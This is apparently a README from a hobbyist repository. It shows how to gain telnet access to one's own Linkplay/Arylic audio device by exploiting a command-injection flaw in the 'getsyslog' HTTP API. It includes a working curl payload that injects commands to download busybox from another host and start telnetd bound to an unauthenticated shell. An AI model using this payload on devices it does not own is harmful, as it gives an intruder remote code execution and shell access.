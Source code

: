 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

If your Linkplay device is running a newer version, you may have to downgrade the firmware first, see [Downgrade Firmware](/Downgrade.md).

The following code snippets are using the IP address 10.1.1.58 for my Arylic Up2Stream device and 10.1.1.22 for a web server running on my local MacMini. You need to create the subdirectories on your web server and copy the busybox binary to it. On my Mac mini it's the directory ***/Library/WebServer/Documents/linkplay*** that is accessible as http://10.1.1.22/linkplay. To organize all the files on my web server I've created several subdirectories below to store the binary file (***.../linkplay/a31/bin/busybox***).
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/linkplay/a31/bin/busybox+-q;chmod+555+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash;"
```
The command above is executing the following commands on the device in addition to the "getsyslog" request:
```
mkdir /tmp/bin
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/linkplay/a31/bin/busybox -q;
chmod 555 /tmp/bin/busybox;
/tmp/bin/busybox telnetd -l/bin/ash;
```
> **Note:**
> Don't forget to add a ";" at the end inside the quotes. Replace all spaces with "+" if you want to create your own URL with curl. The length of the message is limited, so don't try to add too much code.

The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down in the version that was running on my Linplay device and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here (see binary directory). That binary is compatible with the SoC that is running on the Linkplay A31 module, see [Hardware and Firmware](/Hardware.md) for details about the hardware.

There is an OpenWRT archive available where you can get precompiled binaries for almost all utilities you may need. See section [Firmware](/Hardware.md#firmware) for details.
